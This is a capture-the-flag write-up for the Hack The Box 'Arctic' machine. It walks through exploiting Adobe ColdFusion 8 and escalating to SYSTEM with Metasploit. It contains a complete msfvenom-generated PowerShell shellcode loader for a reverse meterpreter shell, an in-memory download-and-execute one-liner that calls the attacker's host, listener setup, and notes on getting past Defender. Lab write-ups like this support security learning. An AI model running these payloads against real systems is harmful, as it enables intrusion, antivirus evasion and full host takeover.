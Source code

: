 ```yaml
---
title: HTB Machine Arctic May 2025
published: 2025-05-15
description: Writeup of HTB Arctic Machine.
tags: [B2R, HTB, Easy, Retired, Windows, Metasploit, Adobe ColdFusion]
image: "images/cover.png"
category: HTB Machine Writeups
draft: false
---
```


# Scanning 

## Nmap 

- Ports Open

```python
Discovered open port 135/tcp on 10.10.10.11 (Remote Procedure Call (RPC))
Discovered open port 8500/tcp on 10.10.10.11 # Don't know what it is
Discovered open port 49154/tcp on 10.10.10.11 (Remote Procedure Call (RPC))
```

- Full Scan

```bash
# Nmap 7.94SVN scan initiated Wed May 14 15:27:15 2025 as: nmap -sC -sV -vvv -T5 -oA nmap/initials -Pn 10.10.10.11
Nmap scan report for 10.10.10.11 (10.10.10.11)
Host is up, received user-set (0.19s latency).
Scanned at 2025-05-14 15:27:16 IST for 170s
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE REASON  VERSION
135/tcp   open  msrpc   syn-ack Microsoft Windows RPC
8500/tcp  open  fmtp?   syn-ack
49154/tcp open  msrpc   syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 14 15:30:06 2025 -- 1 IP address (1 host up) scanned in 171.15 seconds
```

# Enumeration

- Web Server (Adobe ColdFusion web server)

![Pasted image 20250514155330.png](images/Pasted_image_20250514155330.png)

![Pasted image 20250514155550.png](images/Pasted_image_20250514155550.png)

- Adobe ColdFusion 8 Login Panel 

![Pasted image 20250514155934.png](images/Pasted_image_20250514155934.png)

# Exploitation

- Trying 1st Payload using Metasploit

![Pasted image 20250514161334.png](images/Pasted_image_20250514161334.png)

![Pasted image 20250514161446.png](images/Pasted_image_20250514161446.png)

![Pasted image 20250514161504.png](images/Pasted_image_20250514161504.png)

- But Failed!!!!!!!!!!!

- Started Debugging Using Burp with Proxy and found one problem: Metasploit only waits for 5 sec and then it gives error and shuts the listener, but this exploit takes 20 to 30 sec for getting shell. So we have to forward the POST request to proxy and take it into repeater, then shut the Metasploit listener off and start a netcat listener with the same port and send the request through repeater. Then we got the shell.  

![Pasted image 20250514163820.png](images/Pasted_image_20250514163820.png)

- Now the problem is that I have a normal user/service shell which is kind of primitive in nature and we need a meterpreter shell. So for that, we use msfconsole to create another PowerShell payload which will be invoked from the shell we got.

- After Creating that, we transport it to the victim machine using a Python HTTP server and invoke it directly in memory without leaving a file on disk. 

- This is not that easy because Defender keeps removing it, so this is just the success part, although you can see the number of attempts. 😗

- Creating Shell.ps1

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.10 LPORT=1337 -f psh -o shell.ps1
```

- Payload: shell.ps1

```powershell
$xVgZtpUmbJgsKj = @"
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
"@

$JoDMBHBRFCPbBq = Add-Type -memberDefinition $xVgZtpUmbJgsKj -Name "Win32" -namespace Win32Functions -passthru

[Byte[]] $oYFigiQwf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,0x51,0x56,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x4d,0x31,0xc9,0x48,0xf,0xb7,0x4a,0x4a,0x48,0x8b,0x72,0x50,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x66,0x81,0x78,0x18,0xb,0x2,0xf,0x85,0x72,0x0,0x0,0x0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x4d,0x31,0xc9,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x0,0x0,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x1,0x0,0x0,0x49,0x89,0xe5,0x49,0xbc,0x2,0x0,0x5,0x39,0xa,0xa,0x10,0xa,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x7,0xff,0xd5,0x4c,0x89,0xea,0x68,0x1,0x1,0x0,0x0,0x59,0x41,0xba,0x29,0x80,0x6b,0x0,0xff,0xd5,0x6a,0xa,0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xa,0x49,0xff,0xce,0x75,0xe5,0xe8,0x93,0x0,0x0,0x0,0x48,0x83,0xec,0x10,0x48,0x89,0xe2,0x4d,0x31,0xc9,0x6a,0x4,0x41,0x58,0x48,0x89,0xf9,0x41,0xba,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,0x41,0x59,0x68,0x0,0x10,0x0,0x0,0x41,0x58,0x48,0x89,0xf2,0x48,0x31,0xc9,0x41,0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89,0xc3,0x49,0x89,0xc7,0x4d,0x31,0xc9,0x49,0x89,0xf0,0x48,0x89,0xda,0x48,0x89,0xf9,0x41,0xba,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x0,0x40,0x0,0x0,0x41,0x58,0x6a,0x0,0x5a,0x41,0xba,0xb,0x2f,0xf,0x30,0xff,0xd5,0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x49,0xff,0xce,0xe9,0x3c,0xff,0xff,0xff,0x48,0x1,0xc3,0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,0x41,0xff,0xe7,0x58,0x6a,0x0,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5


$XQXihJenTp = $JoDMBHBRFCPbBq::VirtualAlloc(0,[Math]::Max($oYFigiQwf.Length,0x1000),0x3000,0x40)

[System.Runtime.InteropServices.Marshal]::Copy($oYFigiQwf,0,$XQXihJenTp,$oYFigiQwf.Length)

$JoDMBHBRFCPbBq::CreateThread(0,0,$XQXihJenTp,0,0,0)
```

- Transporting Shell.ps1

```powershell
powershell -Command 
"$c=new-object net.webclient;
iex $c.downloadstring('http://10.10.16.10:8000/shell.ps1')"
```

- Metasploit Payload and Instance

```
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 10.10.16.10
set lport 1337
run
```

![Pasted image 20250515100848.png](images/Pasted_image_20250515100848.png)

![Pasted image 20250515101211.png](images/Pasted_image_20250515101211.png)

- And we got our first flag!!

```lua
27c8ead73af56159c49fec2e895bda01
```

# Post Exploitation

- Now comes the post exploitation part, so for that we used Metasploit's default suggester which gives potential modules.

![Pasted image 20250515101511.png](images/Pasted_image_20250515101511.png)

```
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

![Pasted image 20250515102031.png](images/Pasted_image_20250515102031.png)

- These are x86 version meterpreter exploits but we want x64 version, so we have to migrate to an x64 process to do this.
- And for this, we have used the conhost.exe process.

![Pasted image 20250515102505.png](images/Pasted_image_20250515102505.png)

- Now after doing the same exploit suggester, we found this to be vulnerable. So we used it and got the system shell. 👍

```
use exploit/windows/local/ms10_092_schelevator
set SESSION 1
set lhost 10.10.16.10
```

![Pasted image 20250515103152.png](images/Pasted_image_20250515103152.png)

![Pasted image 20250515103249.png](images/Pasted_image_20250515103249.png)

- And finally got the root shell.

![Pasted image 20250515103722.png](images/Pasted_image_20250515103722.png)

```lua
960b5b48915c3d781eb275a5f8965e6f
```
